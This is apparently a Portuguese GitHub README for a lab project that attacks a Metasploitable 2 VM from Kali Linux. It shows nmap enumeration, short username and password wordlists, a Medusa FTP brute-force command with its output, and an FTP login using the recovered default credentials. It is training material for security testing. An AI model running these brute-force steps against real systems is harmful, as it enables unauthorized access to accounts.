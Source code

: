 # Projeto de Simulação de Ataques de Força Bruta com Kali Linux e Medusa

## Descrição do Projeto
Este projeto tem como objetivo demonstrar a execução de ataques de força bruta utilizando Kali Linux e a ferramenta Medusa contra serviços vulneráveis do Metasploitable 2 e aplicação DVWA (Damn Vulnerable Web Application). O projeto também aborda a configuração do ambiente para testes de segurança, tipos de ataques cibernéticos, vulnerabilidades exploradas e medidas de mitigação para proteger sistemas.

## Objetivos
- Compreender ataques de força bruta em serviços FTP, Web e SMB.
- Utilizar Kali Linux e Medusa para auditoria de segurança em ambiente controlado.
- Documentar processos técnicos de forma clara e estruturada.
- Reconhecer vulnerabilidades comuns e propor medidas de mitigação.
- Disponibilizar a documentação e evidências em repositório GitHub como portfólio técnico.

## Ambiente Configurado
- Duas VMs no VirtualBox:
  - Kali Linux (atacante)
  - Metasploitable 2 (vítima vulnerável)
- Rede configurada como Host-Only para comunicação interna entre as VMs.
- DVWA instalado na Metasploitable 2 para testes em aplicações web.

## Ataques Executados

# Ataque de Força Bruta FTP com Medusa

## 1) Enumeração com nmap (portas 21,22,80,139,445)
   
  Comando: nmap -sV -p 21,22,80,139,445 192.168.10.3 
   ### varre as portas específicas com detecção de versão 


O que fazem os parâmetros:

nmap → Programa de varredura de portas e enumeração de rede.

-p 21,22,80,139,445 → varre apenas essas portas.

-sV → tenta descobrir versão do serviço.


### Exemplo de saída:

──(kali㉿kali)-[~]
└─$ nmap -sV -p 21,22,80,139,445 192.168.10.3                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-07 17:12 EDT
Nmap scan report for 192.168.10.3
Host is up (0.0027s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)



 ## 2) Lista de contas / senhas para teste (wordlists simples)

Crie dois arquivos (um para usuários, outro para senhas). 
### users.txt
┌──(kali㉿kali)-[~]
└─$ mkdir -p ~/wordlists   
                                                                                                                                
                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cat > ~/wordlists/users.txt <<'EOF'
msfadmin
root
admin
user
test
guest
ftp
anonymous
tom
backup
EOF
                                                                                                                                 
### passwords.txt
cat > ~/wordlists/passwords.txt <<'EOF'
msfadmin
msf
toor
root
admin
password
123456
test
guest
ftp
EOF

## 3) Brute-force/enumeração com Medusa (FTP)

Instalação (se necessário):

sudo apt update

sudo apt install medusa -y

### Comando Medusa para FTP, usando listas criadas:
medusa -h 192.168.10.3 -U ~/wordlists/users.txt -P ~/wordlists/passwords.txt -M ftp -t 6 -f

O que significam as flags:

-h → alvo (IP).

-U → lista de usuários (um por linha).

-P → lista de senhas.

-M ftp → módulo/serviço FTP.

-t 6 → número de threads concorrentes (ajuste conforme CPU/rede).

-f → parar o ataque quando encontrar uma credencial válida para um usuário.

### Exemplo de saída esperada quando encontra credenciais:

┌──(kali㉿kali)-[~/wordlists]
└─$ medusa -h 192.168.10.3 -U ~/wordlists/users.txt -P ~/wordlists/passwords.txt -M ftp -t 6 -f

Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-07 17:50:37 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 0 complete) Password: msfadmin (1 of 10 complete)
### 2025-10-07 17:50:37 ACCOUNT FOUND: [ftp] Host: 192.168.10.3 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: admin (2 of 10 complete)
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: password (3 of 10 complete)
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: msf (4 of 10 complete)
2025-10-07 17:50:40 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: root (5 of 10 complete)
2025-10-07 17:50:40 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: toor (6 of 10 complete)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/wordlists]
└─$ 

## 4) Teste de conexão FTP com as credenciais encontradas

Suponha que o medusa retornou msfadmin:msfadmin. Teste com um cliente FTP simples.

Modo interativo (ftp client):

Comando: ftp 192.168.10.3
### quando pedir:
Name (192.168.10.3:youruser): msfadmin
Password: msfadmin

Saída esperada:

┌──(kali㉿kali)-[~/wordlists]
└─$ ftp 192.168.10.3
Connected to 192.168.10.3.
220 (vsFTPd 2.3.4)
Name (192.168.10.3:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
 

